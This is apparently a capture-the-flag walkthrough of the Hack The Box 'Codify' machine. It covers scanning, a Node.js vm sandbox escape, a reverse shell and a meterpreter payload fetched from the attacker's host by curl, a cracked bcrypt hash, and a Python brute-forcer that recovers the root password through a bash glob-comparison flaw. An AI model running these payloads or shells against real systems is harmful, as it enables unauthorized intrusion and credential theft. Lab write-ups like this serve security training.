


Discover
nmap
sudo nmap -A -sV -sT -v -O -T4 -p- 10.10.11.239
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_ 256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp open http Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open http Node.js Express framework
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codifyweb
On port 80 there is an app running to apparently test your Node.js code:

nikto
nikto -h http://codify.htb/ -C all
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP: 10.10.11.239
+ Target Hostname: codify.htb
+ Target Port: 80
+ Start Time: 2023-11-06 17:03:41 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.52 (Ubuntu)
+ /: Retrieved x-powered-by header: Express.
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ /: Server may leak inodes via ETags, header found with file /, inode: W/8dd, size: 18770145b38, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi
+ Apache/2.4.52 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: GET, HEAD .
+ 26503 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time: 2023-11-06 17:19:54 (GMT1) (973 seconds)Foothold
Node.js RCE / Reverse shell
try 1: PayloadsAllTheThings reverse shell
(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("/bin/sh", []);
var client = new net.Socket();
client.connect(4444, "10.10.16.6", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/; // Prevents the Node.js application form crashing
})();Error: Module "child_process" is not allowed → Some Limitations
Restricted Modules
The following Node.js modules have been restricted from importing:
child_process
fs
Module Whitelist
Only a limited set of modules are available to be imported. Some of them are listed below. If you need a specific module that is not available, please contact the administrator by mailing support@codify.htb while our ticketing system is being migrated.
url
crypto
util
events
assert
stream
path
os
zlibTry 2: vm module breakout (by pwnisher)
https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet
"use strict";
const vm = require("vm");
const xyz = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('cat /etc/passwd').toString()`);
console.log(xyz);/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:113:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
fwupd-refresh:x:114:122:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/falsehome folders
joshua
svccurrent dir/user/group/env
/home/svc
uid=1001(svc) gid=1001(svc) groups=1001(svc)Successful shell
- Create Metasploit payload & start listener
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.10.16.6 LPORT=4444 -f elf > shell msfconsole use multi/handler set payload linux/x64/meterpreter_reverse_tcp set lport 4444 set lhost 0.0.0.0 run - Start http server
python3 -m http.server 88 - upload and execute using Node.js RCE
process.mainModule.require('child_process').execSync('curl http://10.10.16.6:88/shell -o shell').toString()`); process.mainModule.require('child_process').execSync('chmod +x shell').toString()`); process.mainModule.require('child_process').execSync('./shell').toString()`);
- Run linpeas
sysinfo
Linux version 5.15.0-88-generic (buildd@lcy02-amd64-058) (gcc (Ubuntu 11.4.0-1ubuntu1~22.04) 11.4.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #98-Ubuntu SMP Mon Oct 2 15:18:56 UTC 2023 Distributor ID: Ubuntu Description: Ubuntu 22.04.3 LTS Release: 22.04 Codename: jammyexploit suggester
[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET) Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/ https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/ Exposure: probable Tags: [ ubuntu=(22.04) ]{kernel:5.15.0-27-generic} Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)Processes, Crons, Timers, Services and Sockets
systemd+ 583 0.0 0.2 16248 8168 ? Ss 15:08 0:00 /lib/systemd/systemd-networkd └─(Caps) 0x0000000000003c00=cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw systemd+ 680 0.0 0.3 25816 13852 ? Ss 15:08 0:01 /lib/systemd/systemd-resolved └─(Caps) 0x0000000000002000=cap_net_raw systemd+ 681 0.0 0.1 89356 6576 ? Ssl 15:08 0:00 /lib/systemd/systemd-timesyncd └─(Caps) 0x0000000002000000=cap_sys_time root 689 0.0 0.0 85168 2148 ? S<sl 15:08 0:00 /sbin/auditd _laurel 691 0.0 0.1 9968 5972 ? S< 15:08 0:00 _ /usr/local/sbin/laurel --config /etc/laurel/config.toml └─(Caps) 0x0000000000080004=cap_dac_read_search,cap_sys_ptrace svc 1370 0.3 1.8 11156544 75148 ? Sl 15:08 0:22 _ node /var/www/editor/index.js Proc 1248 with ppid 1 is run by user svc but the ppid user is rootpw files
passwd file: /etc/pam.d/passwd passwd file: /etc/passwd passwd file: /usr/share/bash-completion/completions/passwd passwd file: /usr/share/lintian/overrides/passwddocker files
lrwxrwxrwx 1 root root 33 Apr 21 2023 /etc/systemd/system/sockets.target.wants/docker.socket -> /lib/systemd/system/docker.socket -rw-r--r-- 1 root root 477 Sep 12 15:46 /usr/lib/node_modules/pm2/node_modules/@pm2/io/docker-compose.yml -rw-r--r-- 1 root root 171 Aug 16 21:50 /usr/lib/systemd/system/docker.socket -rw-r--r-- 1 root root 477 Apr 13 2023 /usr/local/lib/node_modules/pm2/node_modules/@pm2/io/docker-compose.yml -rw-r--r-- 1 root root 0 Apr 21 2023 /var/lib/systemd/deb-systemd-helper-enabled/sockets.target.wants/docker.socket
SqlLite db file
Found an interesting SqlLite db → /var/www/contact/tickets.db
it contains the following bcrypt hash:joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
- Crack with john (writeup said it was faster)
echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > oi john --wordlist=/usr/share/wordlists/rockyou.txt oiGot user → joshua:spongebob1
- Login over ssh
ssh joshua@10.10.11.239
joshua@codify:~$ cat user.txt
82c666713f182b4e36e463ab5ccb66cbFound flag → 82c666713f182b4e36e463ab5ccb66cb
Priv escalation
Linpeas:
Interesting processes
Proc 1888 with ppid 1 is run by user joshua but the ppid user is root
Proc 1990 with ppid 1885 is run by user joshua but the ppid user is rootpspy:
2023/11/06 18:22:48 CMD: UID=999 PID=1683 | mariadbd
2023/11/06 18:22:48 CMD: UID=0 PID=1662 | /usr/bin/containerd-shim-runc-v2 -namespace moby -id f88b314ed6a4f84693267bda194d6266bdde5798ef5ccd082109b2566fda07f8 -address /run/containerd/containerd.sock
2023/11/06 18:22:48 CMD: UID=0 PID=1641 | /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 3306 -container-ip 172.19.0.2 -container-port 3306sudo:
sudo -l
User joshua may run the following commands on codify:
(root) /opt/scripts/mysql-backup.shscript content
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"
read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo
if [[ $DB_PASS == $USER_PASS ]]; then
/usr/bin/echo "Password confirmed!"
else
/usr/bin/echo "Password confirmation failed!"
exit 1
fi
/usr/bin/mkdir -p "$BACKUP_DIR"
databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")
for db in $databases; do
/usr/bin/echo "Backing up database: $db"
/usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done
/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'Bruteforce script
Try 1: remote bash script
Try bruteforcing the script remotely:
#!/bin/bash
line="$1"
ssh_pass="spongebob1"
ssh_user="joshua"
ssh_host="10.10.11.239"
output=$(sshpass -p $ssh_pass ssh $ssh_user@$ssh_host "echo $ssh_pass | sudo -v -S &> /dev/null ; echo '$line' | sudo -S /opt/scripts/mysql-backup.sh -S")
output_without_spaces=$(echo "$output" | tr -d ' ')
echo $line
if [ $output_without_spaces != "Passwordconfirmationfailed!" ]; then
exit 0
fiTry 2:
How to do things safely in bash - shellharden's guide to quoting and escaping in bash
My script was way too slow. Apparently there is a vulnerability mysql script.
The vulnerability is about DB_PASS var not using correct escape chars:
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"
read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo
if [[ $DB_PASS == $USER_PASS ]]; then
/usr/bin/echo "Password confirmed!"
else
/usr/bin/echo "Password confirmation failed!"
exit 1
fi
...We can test this, by using wildcards:
joshua@codify:~$ echo "k*" | sudo /opt/scripts/mysql-backup.sh
Password confirmed!exploit python script:
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False
while not found:
for character in all:
command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout
if "Password confirmed!" in output:
password += character
print(password)
break
else:
found = True→ root:kljh12k3jhaskjh12kjh3
Switch to root:
su -
Password: kljh12k3jhaskjh12kjh3found root flag → b3bc29cbcfdc6eda082124b360688bb6